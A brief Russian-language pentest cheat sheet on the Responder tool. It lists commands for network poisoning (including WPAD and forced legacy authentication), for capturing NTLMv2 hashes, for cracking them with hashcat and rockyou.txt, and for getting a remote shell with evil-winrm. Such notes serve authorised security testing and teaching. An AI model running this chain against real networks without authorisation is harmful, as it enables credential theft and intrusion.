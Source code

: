 # Responder
## Введение 
**Responder** - универсальная утилита, которая используется для тестирования безопасности внутренней сети.


## Responder в режиме прослушивания
**Режим прослушивания ( analyze )** - Responder собирает всю информацию из сети и представляет в том виде, который можно использовать в последующих атаках.

**Команда для запуска режима:**
```Python
responder -A -I eth0
```
`-A` - анализ. 
Перехватив NTLMv2 хеш, положим их в файл `tickets.txt` и попробуем восстановить пароли аккаунтов, отправивших нам хеши:  
`hashcat -a 0 -w 4 -m 5600 tickets.txt /usr/share/wordlists/rockyou.txt`

После получения пароля воспользуемся утилитой [evil-winrm](https://github.com/Hackplayers/evil-winrm) для получения удобного доступа к терминальной оболочке сервера:  
`evil-winrm -i [ip] -u [username] -p [password]`
## Атака HTTP Auth
**Команда для запуска режима:**
```python
responder -b -I eth0
```
## Сбор информации о хосте в сети
**Команда для запуска режима:**

```python
responder -f -I eth0
```

# Атака на WPAD

``` 
responder -I eth0 -wFv
```
`-w` - атака на **WPAD**.
`-F` - по возможности принуждать систему использовать старые протоколы аутентификации.
`-v` - просматривать аутентификационные данные NTLM хэша.
